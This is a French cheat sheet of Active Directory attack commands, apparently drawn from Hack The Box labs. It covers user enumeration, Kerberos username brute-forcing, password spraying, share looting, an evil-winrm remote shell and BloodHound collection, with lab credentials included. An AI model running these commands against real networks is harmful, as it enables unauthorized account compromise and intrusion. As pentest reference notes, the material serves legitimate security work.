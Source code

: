 ```yaml
---
public: true 
#Tags: tag1, tag2
---
```


## Récupération d'informations Active Directory et partages



## Politique de mot de passe

### SMB
```shell
# crackmapexec
cme smb $TARGET_IP -u "sql_svc" -p "qsdqsd" -d "domain"  --pass-pol | cut -c60-

# enum4linux
enum4linux -u "" -p "" -P $TARGET_IP

# rpcclient
rpcclient -U "" -N $TARGET_IP
$> querydominfo

```

### LDAP

```shell
# ldapsearch
ldapsearch -h $TARGET_IP -x -b "DC=DOMAIN,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
```

## Découverte de comptes utilisateurs

### Listing

#### SMB

```shell
# crackmapexec
cme smb $TARGET_IP -u $AD_USER -p $AD_PASSWORD --users | tr -s ' ' | tail -n +4 | cut -d ' ' -f 5 | cut -d '\' -f 2 | tee users.txt
```
```shell
# enum4linux
enum4linux -u "" -p "" -U $TARGET_IP | grep user: | cut -d '[' -f2 | cut -d ']' -f1  | tee users.txt

# rpcclient
rpcclient -U "" -N $TARGET_IP -c 'enumdomusers;quit' | grep user: | cut -d '[' -f2 | cut -d ']' -f1  | tee users.txt
```

#### LDAP

```shell
# crackmapexec
cme ldap -u $AD_USER -p $AD_PASSWORD $TARGET_IP -dc-ip $TARGET_IP --users

# ldapsearch
ldapsearch -h $TARGET_IP -x -b "DC=DOMAIN,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -d ' ' -f2
```

### Découverte par bruteforce

On pourra utiliser la liste des noms d'utilisateurs les plus communs provenant de https://github.com/insidetrust/statistically-likely-usernames
Par exemple le fichier : https://raw.githubusercontent.com/insidetrust/statistically-likely-usernames/master/jsmith.txt

```shell
# kerbrute
kerbrute userenum -d DOMAIN.LOCAL --dc $TARGET_IP userbiglist.Txt
```

Cet utilitaire tente très rapidement tous les mots de passes de la liste.
Il ne génère par d'évènement dans un AD configuré avec les options par défaut.


## Attaques sur des comptes utilisateurs

Lorsqu'on dispose d'une liste de comptes utilisateurs, on peut ensuite essayer de trouver leur mots de passe associés.

### Password Spraying

**Attention** :
- toujours vérifier la politique de mot de passe en place (voir plus haut) avant de tenter un password spraying.
- ne pas tenter le nombre maximum de tentatives autorisées !
- `cme [...] --users`  affiche le nombre de mauvaise saisie des compteurs d'authentification (a exécuter sur le PDC emulator pour avoir l'information centralisée de tous les DCs)

Attaque à partir d'une liste d'utilisateurs avec un mot de passe `$AD_PASSWORD`

```shell
# crackmapexec
cme smb $TARGET_IP -u users.txt -p $AD_PASSWORD --continue-on-success | grep '+'

# rpcclient
for u in $(cat users.txt);do rpcclient -U "$u%$AD_PASSWORD" -c "getusername;quit" $TARGET_IP | grep Authority; done

# kerbrute
kerbrute passwordspray -d $AD_DOMAIN --dc $TARGET_IP users.txt  "$AD_PASSWORD"
```


#### Partages
##### Enumération

```shell
cme smb $TARGET -u "" -p "" --shares
cme smb $TARGET_IP -u "sql_svc" -p "REGGIE1234ronnie" -d "sequel"  --shares | cut -c60-
```

```shell
# 
cme smb $TARGET_IP  -u 'guest' -p '' --shares | cut -c60-
      [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
      [+] sequel.htb\guest: 
      [+] Enumerated shares
      Share           Permissions     Remark
      -----           -----------     ------
      ADMIN$                          Remote Admin
      C$                              Default share
      IPC$            READ            Remote IPC
      NETLOGON                        Logon server share 
      Public          READ            
      SYSVOL                          Logon server share 
# Authentification NULL
enum4linux -a -u "" -p "" $TARGET_IP

enum4linux-ng -A -R -C <IP>

# Authentification avec le compte Guest (si non désactivé)
enum4linux -a -u "guest" -p "" $TARGET_IP

# liste des partage avec type d'accès (lecture / écrite / rien)
smbmap -u $AD_USER -p $AD_PASSWORD -d $AD_DOMAIN -H $TARGET_IP
```


### Accès à un partage 

#### smbclient.py
```shell
smbclient.py -no-pass $TARGET_IP  # null bind
smbclient.py "$AD_DOMAIN/$AD_USER:$AD_PASSWORD@$TARGET_IP"    

smbclient.py guest@sequel.htb
Password:       <==== Appuyer sur Entrer
# shares        <==== liste les partages
# use <share name>  <=== se connecte à ce partage
# ls / cd  / cat [...]
```

#### smbclient
```
smbclient -U guest%'' //$TARGET_IP/WorkShares 

# null authentication
smbclient -N -L //$TARGET_IP   # liste les partages
```
#### smbmap
```shell
# Liste des partages 
smbmap -u "" -p "" -H $TARGET_IP   

# Liste de façon récursive les fichiers d'un partage (indique si les droits sont en écriture ou en lecture)
smbmap -u $AD_USER -p $AD_PASSWORD -d $AD_DOMAIN -H $TARGET_IP -R "$SHARE/"

# Téléchargement d'un fichier 
$ smbmap -u "" -p "" -H $TARGET_IP --download  "sambashare\contents\flag.txt"

# Upload d'un fichier 
smbmap -u $AD_USER -p $AD_PASSWORD -d $AD_DOMAIN -H $TARGET_IP --upload desktop.ini Share/desktop.ini
```


### Explorer les partages 

```bash
# Lister tous les fichiers de tous les partages
rm -rf /tmp/cme_spider_plus # dossier contenant les résultats du module spider_plus
cme smb $TARGET_IP -u $AD_USER -p "$AD_PASSWORD" -M spider_plus 
cat /tmp/cme_spider_plus/*.json | jq '. | to_entries | .[] | {share: .key, file: .value | to_entries | .[].key} | "\(.share) | \(.file)"' | tee $TARGET_IP-share_files.txt

```

## Shell
```shell
# Vérification d'accès WINRM
cme winrm $TARGET_IP -u "$AD_USER" -p "$AD_PASSWORD" -d "$AD_DOMAIN"  | cut -c60-
2     [*] http://10.10.11.202:5985/wsman
2     [+] sequel.htb\Ryan.Cooper:NuclearMosquito3 (Pwn3d!)

# Obtention du shell via evil-winrm
evil-winrm -i $TARGET_IP -u "$AD_USER" -p "$AD_PASSWORD"
```

## Bloodhound
```
# Bloodhound python injector available as a docker image (python2)
sudo docker run --rm -v ${PWD}:/bloodhound-data -it bloodhound 
$ bloodhound-python  -u 'svc_apache' -p 'S@Ss!K@*t13' -c All -d 'flight.htb' -v -ns 10.10.11.187
```


